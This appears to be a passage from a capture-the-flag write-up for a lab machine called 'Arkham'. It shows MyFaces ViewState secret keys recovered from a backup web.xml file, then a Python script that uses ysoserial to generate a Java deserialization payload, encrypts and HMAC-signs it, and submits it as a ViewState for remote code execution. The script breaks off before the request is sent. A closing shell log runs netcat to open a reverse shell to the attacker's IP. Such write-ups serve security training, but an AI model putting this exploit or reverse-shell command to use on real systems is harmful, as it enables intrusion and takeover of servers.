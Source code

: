 So I have a bunch of files in there, I'll concentrate on the xml files.

In the `web.xml.bak` file, I find the encryption key for the ViewState. I can use this to construct my own serialized objects and pass them to the server to gain RCE.

```
<param-name>org.apache.myfaces.SECRET</param-name>
<param-value>SnNGOTg3Ni0=</param-value>
</context-param>
    <context-param>
        <param-name>org.apache.myfaces.MAC_ALGORITHM</param-name>
        <param-value>HmacSHA1</param-value>
     </context-param>
<context-param>
<param-name>org.apache.myfaces.MAC_SECRET</param-name>
<param-value>SnNGOTg3Ni0=</param-value>
</context-param>
```

### Java Server Faces object deserialization exploit

I'll use `ysoserial` to generate the payload, then write some python to calculate the hmac based on the key provided in the `web.xml.bak` file.

```python
#!/usr/bin/python

from base64 import b64encode
from hashlib import sha1
from pwn import *
from requests import post, get

import hmac
import os
import pyDes
import sys

def main():
    if len(sys.argv) < 4:
        print("Java JSF exploit")
        print("Usage: {} <url> <cmd> <secret>\n".format(sys.argv[0]))
        sys.exit()

    url = sys.argv[1]
    cmd = sys.argv[2]
    secret = sys.argv[3]

    log.info("Payload provided: {}".format(cmd))
    cmd = "java -jar ./ysoserial.jar CommonsCollections6 \"{}\" > payload.bin".format(cmd)
    log.info("Generating the payload with: {}".format(cmd))
    os.system(cmd)

    log.info("Payload was written to payload.bin, reading it into variable...")
    with open("payload.bin", "rb") as f:
        payload = f.read()

    log.info("Length of payload: {} bytes".format(len(payload)))

    key = bytes(secret).decode("base64")
    des = pyDes.des(key, pyDes.ECB, padmode=pyDes.PAD_PKCS5)
    enc = des.encrypt(payload)
    b = hmac.new(key, bytes(enc), sha1).digest()
    payload = enc + b

    log.info("Sending encoded payload: {}".format(b64encode(payload)))
    data = {"javax.faces.ViewState": b64encode(payload)}
```

[arkham]: PS C:\Users\Batman\Documents>
[arkham]: PS C:\Users\Batman\Documents> cd ..
[arkham]: PS C:\Users\Batman\Documents> whoami
[arkham]: PS C:\Users\Batman\Documents> cd \users\administrator\desktop
[arkham]: PS C:\Users\Batman\Documents> c:\programdata\nc.exe -e cmd.exe 10.10.14.23 6666